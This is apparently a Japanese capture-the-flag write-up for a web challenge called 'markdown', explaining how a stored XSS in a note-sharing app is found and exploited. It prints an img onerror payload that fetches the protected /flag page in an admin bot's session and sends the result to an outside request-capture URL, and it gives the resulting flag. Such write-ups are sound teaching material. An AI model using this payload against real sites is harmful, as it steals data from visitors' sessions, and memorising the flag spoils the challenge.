 # markdown:web:80pts
My friend made an app for sharing their notes!  
App: [https://markdown.web.actf.co/](https://markdown.web.actf.co/)  
Send them a link: [https://admin-bot.actf.co/markdown](https://admin-bot.actf.co/markdown)  

[index.js](index.js)  

# Solution
サイトとAdmin BotのURLと、ソースが渡される。  
アクセスするとmarkdown形式のノートが保存できる。  
![site1.png](site/site1.png)  
![site2.png](site/site2.png)  
ノートごとに`https://markdown.web.actf.co/view/3da090eb6251e22a`のような個別のURLとなる。  
Admin Botがあることから考えてもXSSのようだ。  
ソースを見るとフラグの関連する箇所は以下の通りであった。  
```js
~~~
app.get('/flag', (req, res) => {
    const cookie = req.headers.cookie ?? ''
    res.type('text/plain').end(
        cookie.includes(process.env.TOKEN)
        ? process.env.FLAG
        : 'no flag for you'
    )
})
~~~
```
`/flag`を叩けばよいが、`TOKEN`を確認しているのでAdmin Botでfetchしなければならない。  
markdownとして、XSSの基本となるペイロードを投げると、`<script>alert(1)</script>`は動かないが`<img src=1 onerror=alert(1)>`でアラートした(innerHTMLのようだ)。  
リクエストを受け取るサーバを[用意し](https://pipedream.com/requestbin)、以下のペイロードをノートとして保存する。  
```html
<img src=1 onerror='fetch("/flag").then(res => res.text()).then(text => location.href="https://entrc16w8nkok.x.pipedream.net/?s=" + text)'>
```
ノートのURLとして`https://markdown.web.actf.co/view/a2a52b75931ad531`が手に入るので、Admin Botに送信して踏ませる。  
するとサーバへ以下のようなリクエストが届く。  
```
GET
/?s=actf{b534186fa8b28780b1fcd1e95e2a2e2c}
```
flagが得られた。  

## actf{b534186fa8b28780b1fcd1e95e2a2e2c}